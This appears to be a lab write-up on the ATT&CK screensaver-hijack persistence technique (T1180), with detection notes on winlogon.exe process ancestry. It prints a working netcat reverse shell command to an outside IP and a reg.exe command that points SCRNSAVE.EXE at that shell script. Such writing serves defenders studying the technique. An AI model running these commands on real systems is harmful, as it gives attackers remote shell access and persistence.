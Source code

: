 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

Attacker has a binary that upon execution sends him a reverse shell. To achieve persistence, the attacker can hijack the `SCRNSAVE.EXE` value in `HKCU\Control Panel\Desktop\` to point it to his payload. In my test, I used a netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd@victim" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

For simplicity of this exercise, I am using regedit to update the registry \(as if the attacker got the RDP access\):

![](../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native windws binary reg.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs - this process ancestry is highly suspect and should make you want to investigate the machine further:

![](../.gitbook/assets/screensaver-shell%20%281%29.png)

Commandline line argument monitoring:

![](../.gitbook/assets/screensaver-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1180\",\"type\":\"link\",\"title\":\"Screensaver - ATT&CK for Enterprise\"}" %}




